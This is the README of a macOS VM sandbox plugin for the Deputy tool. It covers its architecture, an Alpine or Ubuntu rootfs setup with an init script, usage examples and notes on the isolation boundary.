# deputy-sandbox-vz

A Deputy sandbox runtime plugin using Apple's Virtualization.framework for VM-based isolation on macOS.

## Credits

- **[vz library](https://github.com/Code-Hex/vz)** by [@Code-Hex](https://github.com/Code-Hex) - Go bindings for macOS Virtualization.framework
- **[Lima project](https://github.com/lima-vm/lima)** - Alpine images with virtiofs-enabled kernel
- **[Ubuntu Cloud Images](https://cloud-images.ubuntu.com/)** - ARM64 cloud images
- **[Alpine Linux](https://alpinelinux.org/)** - Lightweight Linux distribution

## Overview

This plugin provides maximum isolation by running each sandbox execution in a lightweight VM using the [vz](https://github.com/Code-Hex/vz) Go bindings for macOS Virtualization.framework.

**Key Features (with Alpine rootfs):**
- **Network access** - Download dependencies, connect to registries
- **Workspace mounting** - Access your project files via virtiofs
- **Developer-ready** - Go 1.23.5 and Node.js 22 pre-installed
- **Hardware isolation** - Each execution runs in a separate VM
- **No root/sudo required** - Uses user-space virtualization

**Use Cases:**
- Run `go build`, `npm install`, `pip install` in isolated VMs
- Execute untrusted build scripts safely
- Test package manager commands without affecting your system
- AI agent remediation workflows
- Build Deputy inside Deputy ("inception" testing)

**Requirements:**
- macOS 11.0+ (Big Sur or later)
- Apple Silicon (arm64) - required for Virtualization.framework
- Code signing with virtualization entitlements
- Docker (for creating rootfs on macOS)

> [!IMPORTANT]
> **The hypervisor is the real security boundary.** Everything inside the VM (kernel, userspace, your command) runs in an isolated hardware partition. The guest Linux kernel, virtio drivers, and userspace are all *untrusted from the host's perspective*. Apple's Hypervisor.framework provides the actual containment—not the guest OS.

## How It Works

### End-to-End Flow

When you run `deputy exec --runtime plugin --plugin vz ...`, here's what happens:


```mermaid
sequenceDiagram
    participant User
    participant Deputy as deputy CLI
    participant Plugin as deputy-sandbox-vz
    participant VZ as Virtualization.framework
    participant VM as Alpine Linux VM
    participant FS as Host Filesystem

    User->>Deputy: deputy exec --runtime plugin --plugin vz<br/>--workspace . --network host<br/>-- go build ./...

    Note over Deputy: Parse flags, resolve workspace path

    Deputy->>Plugin: Spawn plugin process<br/>(Unix socket IPC)
    Plugin->>Plugin: Load kernel, initrd, rootfs<br/>from ~/.deputy/vz/alpine/

    Plugin->>VZ: Create VM configuration<br/>(CPU, memory, devices)
    VZ->>VZ: Attach virtio devices:<br/>• virtio-blk (rootfs)<br/>• virtio-fs (workspace)<br/>• virtio-net (NAT)<br/>• virtio-console (I/O)

    Plugin->>VZ: Start VM
    VZ->>VM: Boot Linux kernel

    Note over VM: /deputy-init runs as PID 1

    VM->>VM: Mount filesystems<br/>Load virtio modules<br/>Configure networking<br/>Set up DNS (1.1.1.1)
    VM->>FS: Mount workspace via virtiofs<br/>/workspace ↔ host directory

    VM->>VM: Decode command from<br/>kernel cmdline (base64)
    VM->>VM: Execute: go build ./...

    VM-->>Plugin: Stream stdout/stderr<br/>via virtio-console
    Plugin-->>Deputy: Forward output events
    Deputy-->>User: Display build output

    VM->>VM: poweroff -f
    VZ->>Plugin: VM terminated
    Plugin->>Deputy: Exit code
    Deputy->>User: Command complete
```

### Plugin Discovery

Deputy discovers sandbox plugins by searching for executables named `deputy-sandbox-*`:


```mermaid
flowchart LR
    subgraph Discovery["Plugin Discovery Order"]
        direction TB
        D1["Current directory<br/><code>./deputy-sandbox-vz</code>"]
        D2["GOPATH/bin<br/><code>$GOPATH/bin/deputy-sandbox-vz</code>"]
        D3["Go default bin<br/><code>~/go/bin/deputy-sandbox-vz</code>"]
        D4["PATH directories<br/><code>/usr/local/bin/deputy-sandbox-vz</code>"]
        D1 --> D2 --> D3 --> D4
    end

    subgraph Validation["Plugin Validation"]
        direction TB
        V1["Executable exists?"]
        V2["Code signed with<br/>virtualization entitlement?"]
        V3["Responds to health check?"]
        V1 --> V2 --> V3
    end

    Discovery --> Validation
    Validation -->|Valid| Ready["Plugin Ready"]
    Validation -->|Invalid| Error["Error: plugin not found"]

    style Ready fill:#c8e6c9,stroke:#2e7d32
    style Error fill:#ffcdd2,stroke:#c62828
```

### VM Architecture

The VM uses virtio devices for all host communication:


```mermaid
flowchart TB
    subgraph macOS["macOS Host"]
        direction TB
        Deputy["deputy CLI"]
        Plugin["deputy-sandbox-vz<br/><i>Go process</i>"]
        VZF["Virtualization.framework<br/><i>Apple Hypervisor</i>"]

        subgraph HostFS["Host Filesystem"]
            Workspace["Project Directory<br/><code>/Users/you/project</code>"]
            Rootfs["rootfs.img<br/><code>~/.deputy/vz/alpine/</code>"]
            Kernel["vmlinuz + initrd.img"]
        end

        subgraph Network["macOS Network Stack"]
            vmnet["vmnet NAT<br/><code>192.168.64.0/24</code>"]
            Internet["Internet<br/><i>proxy.golang.org, etc.</i>"]
        end
    end

    subgraph VM["Alpine Linux VM"]
        direction TB
        Init["<b>/deputy-init</b><br/><i>PID 1</i>"]

        subgraph Devices["virtio Devices"]
            VBlk["virtio-blk<br/><code>/dev/vda</code> → rootfs"]
            VFS["virtio-fs<br/><code>/workspace</code> → host dir"]
            VNet["virtio-net<br/><code>eth0</code> → NAT"]
            VCon["virtio-console<br/><code>/dev/hvc0</code> → I/O"]
        end

        subgraph Runtime["Runtime Environment"]
            Go["Go 1.23.5<br/><code>/usr/local/go/bin/go</code>"]
            Node["Node.js 22<br/><code>/usr/local/bin/node</code>"]
            Tools["Build tools<br/><i>git, gcc, make</i>"]
        end

        subgraph Caches["Go Build Caches<br/><i>on 8GB rootfs</i>"]
            GC["GOCACHE<br/><code>/root/.cache/go-build</code>"]
            GMC["GOMODCACHE<br/><code>/root/go/pkg/mod</code>"]
            GTD["GOTMPDIR<br/><code>/root/tmp</code>"]
        end
    end

    Deputy -->|"Unix socket<br/>ConnectRPC"| Plugin
    Plugin -->|"VM lifecycle"| VZF
    VZF -->|"Hypervisor"| VM

    Kernel -->|"Boot"| Init
    Rootfs -->|"virtio-blk"| VBlk
    Workspace <-->|"virtio-fs<br/><i>shared filesystem</i>"| VFS
    vmnet <-->|"virtio-net<br/><i>DHCP + NAT</i>"| VNet
    Plugin <-->|"virtio-console<br/><i>stdin/stdout</i>"| VCon
    vmnet --> Internet

    Init --> Devices
    Init --> Runtime
    Runtime --> Caches

    style Deputy fill:#e3f2fd,stroke:#1565c0
    style Plugin fill:#e3f2fd,stroke:#1565c0
    style VM fill:#e8f5e9,stroke:#2e7d32
    style Init fill:#fff3e0,stroke:#e65100
```

### Boot Sequence

> [!WARNING]
> **Kernel cmdline exposes secrets to all guest processes.** Commands and environment variables are passed via the kernel command line (`/proc/cmdline`), which is world-readable inside the VM. Any process in the VM can read API keys, tokens, or other secrets passed through environment variables. For sensitive credentials, consider using a secrets file mounted via virtio-fs with restricted permissions instead.

What happens inside the VM from power-on to command execution:


```mermaid
flowchart TB
    subgraph Boot["VM Boot Sequence (~1.5s)"]
        direction TB
        B1["Kernel loads<br/><code>vmlinuz</code> (Lima 6.18.2-0-virt)"]
        B2["initrd unpacks<br/>Load virtio modules"]
        B3["Mount rootfs<br/><code>/dev/vda</code> → <code>/</code>"]
        B4["switch_root<br/>Execute <code>/deputy-init</code>"]
    end

    subgraph Init["deputy-init (PID 1)"]
        direction TB
        I1["Mount /proc, /sys, /dev, /tmp"]
        I2["Load kernel modules<br/><code>modprobe virtio_net virtiofs</code>"]
        I3["Configure networking<br/>DHCP on eth0"]
        I4["Set DNS servers<br/><code>1.1.1.1, 8.8.8.8</code>"]
        I5["Mount workspace<br/><code>mount -t virtiofs workspace /workspace</code>"]
        I6["Set Go environment<br/>GOCACHE, GOMODCACHE, GOTMPDIR"]
        I7["Decode command<br/>from kernel cmdline"]
        I8["Execute command<br/><code>eval \$CMD</code>"]
        I9["Report exit code<br/><code><<<DEPUTY_EXIT_CODE:N>>></code>"]
        I10["Shutdown<br/><code>poweroff -f</code>"]
    end

    Boot --> Init
    B1 --> B2 --> B3 --> B4
    I1 --> I2 --> I3 --> I4 --> I5 --> I6 --> I7 --> I8 --> I9 --> I10

    style Boot fill:#e3f2fd,stroke:#1565c0
    style Init fill:#fff3e0,stroke:#e65100
```

### Network Architecture

How the VM connects to the internet for downloading dependencies:


```mermaid
flowchart LR
    subgraph VM["Alpine VM"]
        App["go build<br/><i>needs proxy.golang.org</i>"]
        DNS["DNS Query<br/><code>1.1.1.1</code>"]
        eth0["eth0<br/><code>192.168.64.x</code>"]
    end

    subgraph macOS["macOS Host"]
        vmnet["vmnet NAT Gateway<br/><code>192.168.64.1</code>"]
        DHCP["DHCP Server<br/><i>assigns 192.168.64.x</i>"]
        NAT["NAT<br/><i>outbound only</i>"]
    end

    subgraph Internet["Internet"]
        CF["Cloudflare DNS<br/><code>1.1.1.1</code>"]
        GoProxy["proxy.golang.org<br/><i>Go modules</i>"]
        NPM["registry.npmjs.org<br/><i>npm packages</i>"]
    end

    App -->|"DNS lookup"| DNS
    DNS -->|"UDP/53"| eth0
    eth0 <-->|"DHCP"| DHCP
    DHCP --> vmnet
    eth0 -->|"Traffic"| vmnet
    vmnet -->|"NAT"| NAT
    NAT --> CF
    NAT --> GoProxy
    NAT --> NPM

    CF -.->|"Response"| DNS
    GoProxy -.->|"Modules"| App
    NPM -.->|"Packages"| App

    note1["vmnet gateway does NOT<br/>forward DNS queries!<br/>Must use public DNS."]
    vmnet -.-> note1

    style note1 fill:#fff3e0,stroke:#e65100
    style VM fill:#e8f5e9,stroke:#2e7d32
```

### Workspace Mounting (virtiofs)

> [!NOTE]
> **virtio-fs exposes host filesystem to the VM.** The virtio-fs driver in the guest kernel has a meaningful attack surface—it's a complex filesystem protocol, not just a block device. A malicious guest with a virtio-fs kernel exploit could potentially access host memory. This is mitigated by the hypervisor boundary, but it's larger attack surface than a simple block device. For maximum paranoia, use `--workspace-isolation snapshot` (full copy) instead of virtio-fs sharing.

How your project directory is shared between host and VM:


```mermaid
flowchart TB
    subgraph Host["macOS Host"]
        direction TB
        Project["Your Project<br/><code>/Users/you/myapp/</code>"]

        subgraph Files["Project Files"]
            GoMod["go.mod"]
            GoSum["go.sum"]
            Src["*.go files"]
            Built["<b>myapp</b><br/><i>built binary</i>"]
        end

        Project --> Files
    end

    subgraph VZConfig["VZ Configuration"]
        VFSShare["VirtioFileSystemDeviceConfiguration<br/><code>tag: 'workspace'</code>"]
        VFSShare -->|"share directory"| Project
    end

    subgraph VM["Alpine VM"]
        direction TB
        Mount["<code>mount -t virtiofs workspace /workspace</code>"]

        subgraph VMFiles["VM View: /workspace/"]
            VMGoMod["go.mod"]
            VMGoSum["go.sum"]
            VMSrc["*.go files"]
            VMBuilt["<b>myapp</b><br/><i>written by go build</i>"]
        end

        GoBuild["<code>go build -o /workspace/myapp .</code>"]
    end

    VFSShare -->|"virtio-fs"| Mount
    Mount --> VMFiles
    GoBuild -->|"writes"| VMBuilt
    VMBuilt <-->|"<b>instant sync</b><br/><i>shared memory</i>"| Built

    note1["With <code>--mode full-access</code>,<br/>writes in VM appear<br/>immediately on host"]
    VMBuilt -.-> note1

    style Built fill:#c8e6c9,stroke:#2e7d32
    style VMBuilt fill:#c8e6c9,stroke:#2e7d32
    style note1 fill:#e3f2fd,stroke:#1565c0
```

### Persistent Rootfs Storage Model

> [!WARNING]
> **Not like Docker!** The VZ plugin uses a persistent rootfs that accumulates state between runs.
> Unlike Docker containers which start fresh each time, Go toolchain downloads, module caches,
> and any other filesystem changes persist across executions. This makes subsequent builds faster,
> but means you may need to rebuild the rootfs (`./build-alpine-rootfs.sh`) to get a clean slate.

Unlike Docker containers which use copy-on-write (COW) filesystems where each container starts fresh, the VZ plugin uses a **persistent rootfs.img** that accumulates state between runs.


```mermaid
flowchart TB
    subgraph Docker["Docker Container Model (COW)"]
        direction TB
        DI["Base Image<br/><i>read-only layers</i>"]
        DC1["Container 1<br/><i>ephemeral layer</i>"]
        DC2["Container 2<br/><i>ephemeral layer</i>"]
        DC3["Container 3<br/><i>ephemeral layer</i>"]

        DI --> DC1
        DI --> DC2
        DI --> DC3

        note_d["Each container starts<br/>completely fresh"]
        DC1 -.-> note_d
    end

    subgraph VZ["VZ Plugin Model (Persistent)"]
        direction TB
        VR["rootfs.img (8GB ext4)<br/><i>single mutable disk</i>"]
        VE1["Execution 1<br/>• Downloads Go toolchain<br/>• Caches modules"]
        VE2["Execution 2<br/>• Uses cached toolchain<br/>• Uses cached modules"]
        VE3["Execution 3<br/>• All caches warm<br/>• Fast builds!"]

        VR --> VE1
        VE1 -->|"state persists"| VR
        VR --> VE2
        VE2 -->|"state persists"| VR
        VR --> VE3

        note_v["State accumulates<br/>between executions"]
        VR -.-> note_v
    end

    style DI fill:#e3f2fd,stroke:#1565c0
    style DC1 fill:#ffcdd2,stroke:#c62828
    style DC2 fill:#ffcdd2,stroke:#c62828
    style DC3 fill:#ffcdd2,stroke:#c62828
    style VR fill:#c8e6c9,stroke:#2e7d32
    style VE1 fill:#e8f5e9,stroke:#2e7d32
    style VE2 fill:#e8f5e9,stroke:#2e7d32
    style VE3 fill:#e8f5e9,stroke:#2e7d32
    style note_d fill:#fff3e0,stroke:#e65100
    style note_v fill:#fff3e0,stroke:#e65100
```

**What persists between runs:**

| Data | Location in rootfs | Behavior |
|------|-------------------|----------|
| Go toolchain downloads | `/root/go/pkg/mod/cache/download/golang.org/toolchain/` | Downloaded once, reused forever |
| Go module cache | `/root/go/pkg/mod/` | Modules cached across projects |
| Go build cache | `/root/.cache/go-build/` | Compilation artifacts cached |
| npm packages (global) | `/root/.npm/` | Global packages persist |
| System packages | `/usr/`, `/lib/` | Any `apk add` persists |
| Home directory | `/root/` | All user data persists |

**Practical implications:**

```bash
# First run: Downloads Go 1.25.5 toolchain (~150MB), takes 30-60s
deputy exec --runtime plugin --plugin vz --workspace . --network host \
    --cpu 4 --memory 4g -- go build ./...

# Second run: Toolchain cached, only builds - much faster!
deputy exec --runtime plugin --plugin vz --workspace . --network host \
    --cpu 4 --memory 4g -- go build ./...

# Third run with different project: Module cache warm, even faster
cd ../other-project
deputy exec --runtime plugin --plugin vz --workspace . --network host \
    --cpu 4 --memory 4g -- go build ./...
```

**When to rebuild rootfs:**

| Scenario | Action |
|----------|--------|
| Corrupt cache (zip errors, checksum failures) | `./build-alpine-rootfs.sh` |
| Want to start fresh | `./build-alpine-rootfs.sh` |
| Upgrade Go/Node versions | Edit script, then `./build-alpine-rootfs.sh` |
| Disk full (8GB limit) | `./build-alpine-rootfs.sh` or increase `--size` |

**Future: Ephemeral Execution Mode**

A Docker-like ephemeral mode is planned where each execution starts from a clean base image with separate persistent cache volumes:

```
~/.deputy/vz/
├── bases/                    # Immutable base images
│   └── alpine-go1.23.5.img   # Base with Go toolchain
├── overlays/                 # Per-execution ephemeral layers (auto-deleted)
│   └── exec-{uuid}/
└── caches/                   # Persistent toolchain caches (virtiofs mounts)
    ├── go/                   # GOMODCACHE, GOCACHE
    └── npm/                  # npm cache
```

This would provide:
- **Reproducibility**: Clean slate each execution
- **Fast builds**: Toolchain caches persist across executions
- **Easy reset**: Clear caches without rebuilding rootfs

See [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md) for the full design proposal.

### Security Boundary

How VZ provides stronger isolation than containers:


```mermaid
flowchart TB
    subgraph Container["Container (Docker/Podman)"]
        direction TB
        CP["Container Process"]
        CK["Shared Host Kernel"]
        CN["Linux Namespaces<br/><i>pid, net, mnt, user</i>"]
        CC["cgroups<br/><i>resource limits</i>"]

        CP --> CN --> CK
        CP --> CC --> CK
    end

    subgraph VM["VZ Virtual Machine"]
        direction TB
        VP["VM Process"]
        VK["<b>Separate Linux Kernel</b><br/><i>6.18.2-0-virt</i>"]
        VH["Apple Hypervisor.framework<br/><i>hardware isolation</i>"]
        MK["macOS Kernel"]

        VP --> VK --> VH --> MK
    end

    subgraph Comparison["Escape Complexity"]
        direction LR
        CE["Container Escape:<br/>Kernel exploit<br/>→ Host access"]
        VE["VM Escape:<br/>Guest kernel exploit<br/>→ Hypervisor exploit<br/>→ Host kernel exploit<br/>→ Host access"]
    end

    style CK fill:#ffcdd2,stroke:#c62828
    style VK fill:#c8e6c9,stroke:#2e7d32
    style VH fill:#c8e6c9,stroke:#2e7d32
    style CE fill:#ffcdd2,stroke:#c62828
    style VE fill:#c8e6c9,stroke:#2e7d32
```

### Asset Files

> [!CAUTION]
> **Rootfs integrity is critical.** Anyone with write access to `~/.deputy/vz/` can modify the kernel, initrd, or rootfs used by all future VM executions. This is equivalent to owning the sandbox. Treat these files like you would SSH keys: protect them from unauthorized modification and consider verifying checksums before use.

The files created by `build-alpine-rootfs.sh` and how they're used:


```mermaid
flowchart TB
    subgraph Build["build-alpine-rootfs.sh"]
        direction TB
        ISO["Lima Alpine ISO<br/><i>downloaded once</i>"]
        Extract["Extract kernel,<br/>initrd, modloop"]
        Docker["Docker creates<br/>ext4 rootfs"]
    end

    subgraph Assets["~/.deputy/vz/alpine/"]
        direction TB
        Kernel["<b>vmlinuz</b><br/>34MB Linux kernel<br/><i>ARM64 Image format</i>"]
        Initrd["<b>initrd.img</b><br/>Initramfs<br/><i>loads virtio modules</i>"]
        Rootfs["<b>rootfs.img</b><br/>8GB ext4 filesystem<br/><i>Alpine + Go + Node.js</i>"]
        Modloop["modloop-virt<br/>squashfs modules<br/><i>extracted into rootfs</i>"]
    end

    subgraph EnvVars["Environment Variables"]
        E1["DEPUTY_VZ_KERNEL"]
        E2["DEPUTY_VZ_INITRD"]
        E3["DEPUTY_VZ_ROOTFS"]
    end

    subgraph Plugin["deputy-sandbox-vz"]
        Load["Load assets"]
        VMCreate["Create VM"]
    end

    ISO --> Extract --> Docker
    Extract --> Kernel
    Extract --> Initrd
    Extract --> Modloop
    Docker --> Rootfs

    E1 --> Kernel
    E2 --> Initrd
    E3 --> Rootfs

    Kernel --> Load
    Initrd --> Load
    Rootfs --> Load
    Load --> VMCreate

    style Kernel fill:#e3f2fd,stroke:#1565c0
    style Initrd fill:#e3f2fd,stroke:#1565c0
    style Rootfs fill:#e3f2fd,stroke:#1565c0
```

### Why Alpine Over Ubuntu?


```mermaid
flowchart TB
    subgraph Ubuntu["Ubuntu 24.04 Cloud Kernel"]
        direction TB
        UK["vmlinuz-generic<br/>56MB"]
        UV["virtio_blk: <b>built-in</b> ✓"]
        UVF["virtiofs: <b>NOT INCLUDED</b> ✗"]
        UW["Workspace mounting: <b>NO</b>"]
        UB["Boot time: ~70ms"]
    end

    subgraph Alpine["Lima Alpine Kernel"]
        direction TB
        AK["vmlinuz-virt<br/>34MB"]
        AV["virtio_blk: module ✓"]
        AVF["virtiofs: <b>module</b> ✓"]
        AW["Workspace mounting: <b>YES</b>"]
        AB["Boot time: ~1.5s"]
        AI["Requires initrd to<br/>load modules"]
    end

    subgraph UseCase["Choose Based on Use Case"]
        direction LR
        UC1["Need workspace access?<br/>→ <b>Alpine</b>"]
        UC2["Just running commands<br/>in isolation?<br/>→ Ubuntu is fine"]
    end

    Ubuntu --> UseCase
    Alpine --> UseCase

    style UVF fill:#ffcdd2,stroke:#c62828
    style UW fill:#ffcdd2,stroke:#c62828
    style AVF fill:#c8e6c9,stroke:#2e7d32
    style AW fill:#c8e6c9,stroke:#2e7d32
    style UC1 fill:#c8e6c9,stroke:#2e7d32
```

## Quick Start with Alpine (Recommended)

This is the recommended setup for supply chain security workflows. It provides:
- **Network access** for downloading dependencies (`go build`, `npm install`)
- **Workspace mounting** via virtiofs (access your project files in the VM)
- **Go 1.23.5 and Node.js 22** pre-installed
- **8GB rootfs** with room for toolchain caches and builds

### Complete Setup (3 Steps)

```bash
# Step 1: Build and install the VZ plugin
cd examples/sandbox-plugins/vz
go build -o deputy-sandbox-vz .
codesign --entitlements entitlements.plist --sign - deputy-sandbox-vz
mkdir -p ~/go/bin && cp deputy-sandbox-vz ~/go/bin/

# Step 2: Build the Alpine rootfs (requires Docker, takes ~2-3 minutes)
# Creates: ~/.deputy/vz/alpine/{vmlinuz, initrd.img, rootfs.img}
# Also creates symlinks at ~/.deputy/vz/ for default path discovery
./build-alpine-rootfs.sh

# Step 3: Test (no environment variables needed!)
deputy exec --runtime plugin --plugin vz -- uname -a
# Expected: Linux (none) 6.18.2-0-virt #1-Alpine SMP ... aarch64 Linux

# Test Go (uses pre-installed toolchain, GOTOOLCHAIN=local prevents auto-download)
deputy exec --runtime plugin --plugin vz -- go version
# Expected: go version go1.23.5 linux/arm64
# Note: If you see a download attempt, rebuild rootfs: ./build-alpine-rootfs.sh

# Test workspace mounting
deputy exec --runtime plugin --plugin vz --workspace . -- ls /workspace

# Optional: Set explicit paths (add to ~/.zshrc if you prefer)
# export DEPUTY_VZ_KERNEL=~/.deputy/vz/alpine/vmlinuz
# export DEPUTY_VZ_ROOTFS=~/.deputy/vz/alpine/rootfs.img
# export DEPUTY_VZ_INITRD=~/.deputy/vz/alpine/initrd.img
```

### What the Build Script Creates

The `build-alpine-rootfs.sh` script creates:

| File | Description | Size |
|------|-------------|------|
| `~/.deputy/vz/alpine/vmlinuz` | Linux kernel (ARM64 Image format, extracted from Lima EFI stub) | ~34MB |
| `~/.deputy/vz/alpine/initrd.img` | Custom initrd with virtiofs, virtio_blk, ext4 modules | ~25MB |
| `~/.deputy/vz/alpine/rootfs.img` | Alpine root filesystem with Go 1.23.5 + Node.js 22 | 8GB |
| `~/.deputy/vz/vmlinuz` | Symlink → `alpine/vmlinuz` (for default path discovery) | - |
| `~/.deputy/vz/rootfs.img` | Symlink → `alpine/rootfs.img` (for default path discovery) | - |

**Permissions Note:** The script sets `chmod 666` on `rootfs.img` because VZ requires read-write access to attach the disk. If you see permission errors, run:
```bash
chmod 666 ~/.deputy/vz/alpine/rootfs.img
```

### Building Go Projects

```bash
# Build your Go project in an isolated VM with network access
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network host \
    --cpu 4 \
    --memory 4g \
    -- go build ./...

# Build and output binary to host filesystem
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network host \
    --cpu 4 \
    --memory 4g \
    --mode full-access \
    -- go build -o /workspace/myapp .

# Verify the binary (Linux ELF format, not macOS Mach-O)
file myapp
# myapp: ELF 64-bit LSB executable, ARM aarch64, ...
```

### Deputy-with-Deputy (Inception)

Build and test Deputy itself inside a VM sandbox:

```bash
# From the deputy repository root
cd /path/to/deputy

# Build deputy inside the VM
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network host \
    --cpu 4 \
    --memory 4g \
    --mode full-access \
    -- go build -o /workspace/deputy-vm .

# Run deputy inside deputy!
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network host \
    -- ./deputy-vm scan .

# Run tests in the VM
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network host \
    --cpu 4 \
    --memory 4g \
    -- go test ./...
```

---

## Quick Start (Ubuntu 24.04 LTS)

> **Note:** Ubuntu is simpler to set up but does NOT support workspace mounting (no virtiofs).
> Use Alpine (above) if you need to access host files in the VM.

This section provides exact commands to get a working VM sandbox using Ubuntu 24.04 LTS (Noble Numbat).

### One-Command Setup (Recommended)

The fastest way to get started is using the Makefile:

```bash
# From the deputy repository root
cd examples/sandbox-plugins/vz

# Full setup: download kernel, build rootfs with Go/Node, install plugin
make setup

# Test it works
deputy exec --runtime plugin --plugin vz -- go version
deputy exec --runtime plugin --plugin vz -- node --version
```

This creates a developer-ready VM with:
- Go 1.25.5 toolchain (matches deputy's go.mod)
- Node.js 22 LTS + npm
- Build essentials (gcc, make, git)
- Python 3 with pip

### Manual Setup

If you prefer manual control, follow these steps:

### 1. Build and Install the Plugin

```bash
# From the deputy repository root
cd examples/sandbox-plugins/vz

# Build the plugin
go build -o deputy-sandbox-vz .

# Sign with virtualization entitlement (required by macOS)
codesign --entitlements entitlements.plist --sign - deputy-sandbox-vz

# Install to Go's bin directory (automatically discovered by deputy)
mkdir -p ~/go/bin
cp deputy-sandbox-vz ~/go/bin/

# Verify it's discoverable
ls ~/go/bin/deputy-sandbox-vz
```

**Plugin Discovery:** Deputy searches for sandbox plugins (`deputy-sandbox-*`) in:
1. Current working directory (for development)
2. `$GOPATH/bin` (if GOPATH is set)
3. `$HOME/go/bin` (default Go bin location)
4. All directories in `PATH`

### 2. Download Ubuntu Assets

Download the kernel and root filesystem from Ubuntu's official cloud images:

```bash
# Create the asset directory
mkdir -p ~/.deputy/vz
cd ~/.deputy/vz

# Download kernel (vmlinuz) - this is a gzip-compressed file
curl -LO https://cloud-images.ubuntu.com/releases/24.04/release/unpacked/ubuntu-24.04-server-cloudimg-arm64-vmlinuz-generic
mv ubuntu-24.04-server-cloudimg-arm64-vmlinuz-generic vmlinuz.gz

# Decompress the kernel
gunzip vmlinuz.gz

# Verify it's a proper ARM64 kernel
file vmlinuz
# Expected: Linux kernel ARM64 boot executable Image, little-endian, 4K pages

# Download root filesystem tarball
curl -LO https://cloud-images.ubuntu.com/releases/24.04/release/ubuntu-24.04-server-cloudimg-arm64-root.tar.xz
```

> **Note:** No initrd is needed! The Ubuntu kernel boots directly to the rootfs with virtio drivers built-in, achieving ~70ms boot times.

### 3. Create the Root Filesystem Image

Use Docker to create an ext4 disk image from the root tarball (macOS can't create ext4 natively):

```bash
cd ~/.deputy/vz

# Use Docker to create an ext4 rootfs (requires --privileged for loop mount)
docker run --rm --privileged -v ~/.deputy/vz:/output ubuntu:24.04 bash -c '
  set -ex
  apt-get update && apt-get install -y xz-utils e2fsprogs

  # Create a 2GB disk image (Ubuntu needs more space than Alpine)
  dd if=/dev/zero of=/output/rootfs.img bs=1M count=2048
  mkfs.ext4 -F /output/rootfs.img

  # Mount the image
  mkdir -p /mnt/rootfs
  mount -o loop /output/rootfs.img /mnt/rootfs

  # Extract the Ubuntu root filesystem
  tar -xJf /output/ubuntu-24.04-server-cloudimg-arm64-root.tar.xz -C /mnt/rootfs

  # Create deputy-init script for command execution
  cat > /mnt/rootfs/deputy-init << "INITSCRIPT"
#!/bin/bash
# deputy-init - Init script for Deputy VZ sandbox
#
# This script is executed as the init process (PID 1) inside the VM.
# It reads the base64-encoded command from the kernel cmdline parameter "deputy.cmd",
# executes it using eval, and reports the exit code via protocol markers.

# Mount essential filesystems
mount -t proc proc /proc 2>/dev/null
mount -t sysfs sys /sys 2>/dev/null
mount -t devtmpfs dev /dev 2>/dev/null

# Get the base64-encoded command from kernel cmdline
CMD_BASE64=""
for param in $(cat /proc/cmdline); do
    case "$param" in
        deputy.cmd=*)
            CMD_BASE64="${param#deputy.cmd=}"
            break
            ;;
    esac
done

if [ -z "$CMD_BASE64" ]; then
    echo "<<<DEPUTY_OUTPUT_START>>>"
    echo "<<<DEPUTY_STDERR>>>"
    echo "Error: No command provided (deputy.cmd not found in kernel cmdline)"
    echo "<<<DEPUTY_OUTPUT_END>>>"
    echo "<<<DEPUTY_EXIT_CODE:1>>>"
    exec /sbin/poweroff -f
fi

# Decode the command (space-separated, executed via eval)
CMD_DECODED=$(echo "$CMD_BASE64" | base64 -d 2>/dev/null)

if [ -z "$CMD_DECODED" ]; then
    echo "<<<DEPUTY_OUTPUT_START>>>"
    echo "<<<DEPUTY_STDERR>>>"
    echo "Error: Failed to decode command"
    echo "<<<DEPUTY_OUTPUT_END>>>"
    echo "<<<DEPUTY_EXIT_CODE:1>>>"
    exec /sbin/poweroff -f
fi

# Signal start of output
echo "<<<DEPUTY_OUTPUT_START>>>"
echo "<<<DEPUTY_STDOUT>>>"

# Create temporary files for capturing stdout and stderr
STDOUT_FILE="/tmp/deputy_stdout"
STDERR_FILE="/tmp/deputy_stderr"
touch "$STDOUT_FILE" "$STDERR_FILE"

# Execute the command using eval, capturing stdout and stderr separately
eval "$CMD_DECODED" >"$STDOUT_FILE" 2>"$STDERR_FILE"
EXIT_CODE=$?

# Output stdout
if [ -s "$STDOUT_FILE" ]; then
    cat "$STDOUT_FILE"
fi

# Output stderr if any
if [ -s "$STDERR_FILE" ]; then
    echo "<<<DEPUTY_STDERR>>>"
    cat "$STDERR_FILE"
fi

# Signal end of output and report exit code
echo "<<<DEPUTY_OUTPUT_END>>>"
echo "<<<DEPUTY_EXIT_CODE:${EXIT_CODE}>>>"

# Shutdown the VM
exec /sbin/poweroff -f
INITSCRIPT
  chmod +x /mnt/rootfs/deputy-init

  # Ensure essential directories exist
  mkdir -p /mnt/rootfs/{dev,proc,sys,tmp,run}

  umount /mnt/rootfs
  echo "SUCCESS: Created rootfs.img with Ubuntu and deputy-init"
'
```

### 4. Verify Your Setup

```bash
ls -la ~/.deputy/vz/
# Should show:
# - vmlinuz      (Linux kernel, ~35-40MB)
# - rootfs.img   (root filesystem, 2GB)

# Verify kernel format
file ~/.deputy/vz/vmlinuz
# Expected: Linux kernel ARM64 boot executable Image, little-endian, 4K pages
```

### 5. Test the Plugin

```bash
# Build deputy if not already built
cd /path/to/deputy
go build -o deputy .

# Test plugin discovery - start the plugin manually to verify it works
~/go/bin/deputy-sandbox-vz --socket /tmp/test-vz.sock &
VZ_PID=$!
sleep 2
ls -la /tmp/test-vz.sock  # Should show the socket file
kill $VZ_PID

# Test via deputy (full end-to-end)
./deputy exec --runtime plugin --plugin vz -- echo "hello from VM"

# Try more commands
./deputy exec --runtime plugin --plugin vz -- uname -a
# Expected: Linux (none) 6.8.0-90-generic ... aarch64 GNU/Linux

./deputy exec --runtime plugin --plugin vz -- cat /etc/os-release
# Expected: PRETTY_NAME="Ubuntu 24.04.3 LTS" ...
```

## Environment Variables

Environment variables are **optional** when using the Alpine build script, which creates symlinks for default path discovery.

### VM Assets

| Variable | Description | Default |
|----------|-------------|---------|
| `DEPUTY_VZ_KERNEL` | Path to Linux kernel (vmlinuz) | `~/.deputy/vz/vmlinuz` (symlink → alpine/) |
| `DEPUTY_VZ_INITRD` | Path to initrd (required for Alpine) | `~/.deputy/vz/alpine/initrd.img` |
| `DEPUTY_VZ_ROOTFS` | Path to root filesystem image | `~/.deputy/vz/rootfs.img` (symlink → alpine/) |

